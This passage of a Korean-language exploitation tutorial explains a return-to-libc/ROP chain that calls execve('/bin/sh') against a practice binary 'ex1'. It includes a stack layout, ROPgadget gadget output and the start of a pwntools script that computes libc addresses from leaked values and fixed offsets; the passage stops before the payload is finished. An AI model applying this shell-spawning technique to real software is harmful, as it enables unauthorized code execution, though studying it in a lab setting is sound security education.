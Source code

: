 

pop-pop-return 되는 순간, EIP는 execve() 주소로 바뀔 것이며 이때 stack 모양은 아래와 같습니다. 필요한 인자값이 세팅이 모두 되어 있는 것이지요. 여기가 가장 중요한 포인트인데, 이해가 안되시는 분은 debugger에서 pop, pop, return 되는 순간을 instruction 단위로 따라가면서 stack이 어떻게 바뀌는지 보시기 바랍니다.

```sh
                ---------------------------
        ARG3    |          0              |
                ---------------------------
        ARG2    |          0              |
                ---------------------------
        ARG1    |          "/bin/sh"      |
                ---------------------------
 return_execve  |          ret            |
                ---------------------------
EIP---> func    |          execve()       |
                ---------------------------
```



이를 python 코드로 표현하면 아래와 같습니다. 참! pop-pop-return 주소는 어떻게 찾을까요? ROPgadget이라는 도구를 이용합니다.

```sh
$ ROPgadget --binary ex1 --only "poo|pop|ret"

Gadgets information
============================================================
0x08049423 : pop ebp ; ret
0x08049420 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049022 : pop ebx ; ret
0x08049422 : pop edi ; pop ebp ; ret
0x08049421 : pop esi ; pop edi ; pop ebp ; ret
0x0804900e : ret
0x0804920b : ret 0xe8c1
0x0804906a : ret 0xffff
```

도구를 보니 바이너리의 `0x08049422` 주소가 pop-pop-ret하는 instructions들을 가지고 있군요. 이제 python으로 돌아가서 아래와 같이 payload를 완성합시다.



```python

from pwn import *

p = process("./ex1")
out = p.recv()

address = {}
for l in out.splitlines():
    if not ":" in l:
        continue
    k, v = l.split(":")
    k = k.replace("()", "").strip()
    v = int(v, 16)
    address[k] = v


SYSTEM_OFFSET   = 0x41790
EXECVE_OFFSET   = 0xc9500
SETREGID_OFFSET = 0xfc480
BINSH_OFFSET    = 0x18e363

LIBC_BASE     = address['system'] - SYSTEM_OFFSET
EXECVE_ADDR   = LIBC_BASE + EXECVE_OFFSET
SETREGID_ADDR = LIBC_BASE + SETREGID_OFFSET
```
